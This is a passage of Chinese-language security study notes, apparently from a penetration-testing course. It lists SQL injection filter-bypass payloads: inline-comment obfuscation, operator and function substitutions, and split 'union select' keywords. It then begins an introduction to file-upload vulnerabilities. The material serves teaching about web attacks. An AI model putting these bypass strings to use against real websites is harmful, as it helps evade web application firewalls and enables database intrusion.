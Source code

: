 ###### ⑤or and xor not绕过

```
1. 使用逻辑判断符替代
	and  =>  &&
    or   =>  ||
    xor  =>  |
    not  =>  !
2. 使用内联注释
	/*!and*/、/*!%23/*%0aand*/
```

###### ⑥函数过滤

```
1. sleep()	=> benchmark(10000000,md5(1))
2. ascii()  =>  ord()
3.  group_concat()	=>  concat_ws()
		例如：select group_concat(1,' -- ',1,' -- ',1)  => select concat_ws(' -- ',1,1,1)
4. substr()  =>  mid()、substring()、left()、right()
```

###### ⑦常见绕过方式

```
1. 绕过关键字检测
    a. user() --> user/*//--//*/()  或  database/*%!a*/()
    b. from  -->  /*!%23/*%0aform*/
    c. 大小写替换
    d. 重复关键字
2. 绕过2个及以上检测语句
union select  --> union/*//--/*/select
union select 1,2,3 -->   union /*!--+/*%0aselect/*!1,2,*/ 3
```

## 第四天

### 1. 文件上传

#### (1). 概述

##### a. 简介

* 文件上传漏洞是指程序员在**开发任意文件上传**功能时，**并未考虑文件格式后缀的合法性校验，**或只考虑在**前端通过js进行后缀检验**

  <img src="../../images/8-29-morning/文件上传漏洞.png" alt="文件上传漏洞" style="zoom:50%;" />
